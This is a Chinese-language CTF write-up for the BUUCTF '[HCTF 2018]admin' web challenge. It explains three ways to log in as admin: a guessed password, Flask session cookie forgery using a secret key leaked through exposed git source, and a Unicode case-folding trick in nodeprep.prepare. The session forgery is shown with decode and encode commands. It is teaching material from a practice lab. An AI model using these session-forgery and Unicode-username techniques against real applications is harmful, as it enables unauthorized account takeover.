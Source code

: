 ```yaml
---
title: '[HCTF 2018]admin wp'
tags:
  - CTF-WEB
categories: []
date: 2020-05-03 18:41:00
---
```

# 题目说明

题目来源于BUUCTF,链接：[点我查看](https://buuoj.cn/challenges#[HCTF%202018]admin)

# 玄学 非预期解

题目名称为admin,应该是让用admin登录

源码中也印证了这一点

![image-20200503180231244](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503180231244.png)

登录页面乱输密码试了下，输入123时然后它就登进去了！！！

这样的话暴力破解也能得到flag,但是以buuctf的web题难度想着不可能那么简单，于是搜了下wp，结合别人的wp又学到了不少，在此记录下

# flask session伪造(也是非预期解)

flask中session是存储在客户端cookie中的，也就是存储在本地。我们可以修改session达到伪造admin用户的效果。

github有相应的脚本：[点我查看](https://github.com/noraj/flask-session-cookie-manager)

但是session是加密的，我们需要知道秘钥才能修改session

## 找秘钥

注册个账号登录后在修改密码页面有git源码

![image-20200503180730036](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503180730036.png)

下载下来在config.py中发现秘钥

![image-20200503181122457](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503181122457.png)

## 伪造session

然后我们就可以用脚本伪造session了

先解密原来的session

```python
python3 flask_session_cookie_manager3.
py decode -s "ckj123" -c ".eJw9kMGKwjAQhl9lmbOHbZuT4EFIt2whEwpTy-Qirq0mqXGhKtqI775VFk8D__fzDTN3WO-G7mRhfh4u3QzWroX5HT5-YA7YVAk2amRCz7FPlVQCCyU4_QrGo9XSOKS9UN5YDqseJaco-9uUZVqWjklFDtOMedQyv2qqMlPkV-ON51BHLMrA0QZTrJx6OqkNnNbTzjxTTTX1sMenI1YjFsbqphaKeNQNZ-hLr2krmFpn5HIBjxlsT8Nuff7tu-P7BE15ogu0iozTzXdkvxSY5qMie-C4F0aW1pBKkaqIobpxPHi8Ll46Fzb77m2qDytU_-S4CROABGZwOXXD62eQfMLjD-mobCE.Xq5sUg.8y1k1rWI_KY5cx0H4qGeLmOYtLw"
```

![image-20200503181724452](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503181608834.png)



然后修改name为admin

```python
python3 flask_session_cookie_manager3.
py encode -s "ckj123" -t "{'_fresh': True, 'name': 'admin', 'image': b'RUM3', 'user_id': '10', '_id': b'5d55c2a3cc960384c8caff3a86b58826abed46649158782ba33bbbc13810947da0f6cbe34bfc8fdeb3afe7fce55a71d0f3d533c424fa9e81629f762c978a7bd0', 'csrf_token': b'9158ca16b9b3b087a218ec88d2ae365436d1c9c7'}"
```

![image-20200503182645495](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503181802317.png)



原来的session是这个样子

![image-20200503181608834](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503181724452.png)

我们把左边的session修改成上面的session

![image-20200503181832435](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503181832435.png)

就成功伪造了admin用户拿到flag

# unicode欺骗(预期解法)

其实这个解法才是原作者预期解法，只不过当时作者写的代码不打严谨，导致出现了许多非预期解法。

阅读源码，我们可以发现注册登录修改密码都用到了strlower转换成小写。而且这个函数是自定义的

```python
def strlower(username):
    username = nodeprep.prepare(username)
    return username
```

对于nodeprep.prepare函数就存在漏洞

对于字符ᴬ，调用一次函数会转换成A,再调用一次会转换成a

所以我们注册一个名为ᴬdmin的用户，正常登录。首页会显示我们的用户名为Admin

如果我们用Admin去修改密码，首先它调用strlower函数会把Admin转换为admin，这样我们其实就相当于改了admin的密码

![image-20200503181802317](https://cdn.jsdelivr.net/gh/zss192/Typora-notes@latest/images/image-20200503182645495.png)

然后我们用admin用户和刚才修改的密码即可登录

# 写在最后

尽管出题人疏忽了，但对我们而言又学到了许多姿势，继续加油吧！